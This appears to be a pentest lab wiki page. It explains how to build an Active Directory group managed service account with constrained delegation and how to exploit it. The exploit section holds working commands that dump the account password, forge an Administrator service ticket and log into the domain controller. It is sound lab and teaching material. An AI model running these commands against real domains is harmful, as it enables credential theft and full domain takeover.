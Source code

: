 # Group Managed Service Accounts \(GMSA\)

###  GMSA Account & Constrained Delegation

#### Build

```text
Add-KdsRootKey –EffectiveTime ((get-date).addhours(-10)) 
New-ADServiceAccount -Name sql_svc -DNSHostName vulnlab.local -PrincipalsAllowedToRetrieveManaged "gmsa-readers"
Set-ADServiceAccount -Identity sql_svc -TrustedForDelegation $true
Set-ADAccountControl -Identity sql_svc$ -TrustedForDelegation $false -TrustedToAuthForDelegation $true
```

Then, in the AD Users & Computers GUI, set msDS-AllowedToDelegateTo attribute of sql\_svc to "DNS/dc.vulnlab.local" \(or whatever SPN you want to allow constrained delegation to\).

In order to read the GMSA password later you have to enable LDAPS \(Add Role "Active Directory Certificate Services" and restart\).

#### Exploit

Read GMSA password & use it to exploit the constrained delegation.

```text
python3 gMSADumper.py -u <user in gmsa-readers group> -p '' -d vulnlab.local

getST.py vulnlab.local/sql_svc$ -hashes :<hash>-spn DNS/dc.vulnlab.local -impersonate Administrator -dc-ip dc.vulnlab.local

export 'KRB5CCNAME=Administrator.ccache'

smbclient.py Administrator@dc.vulnlab.local -k -no-pass
```

Sometimes you will have to sync your local time to either a targets webserver, or just google.

```text
sudo date -s "$(curl -sI google.com| grep -i '^date:'|cut -d' ' -f2-)"
```

### Resources

* [https://en.hackndo.com/constrained-unconstrained-delegation/](https://en.hackndo.com/constrained-unconstrained-delegation/)
* [https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/configure-kerberos-delegation-group-managed-service-accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/configure-kerberos-delegation-group-managed-service-accounts)



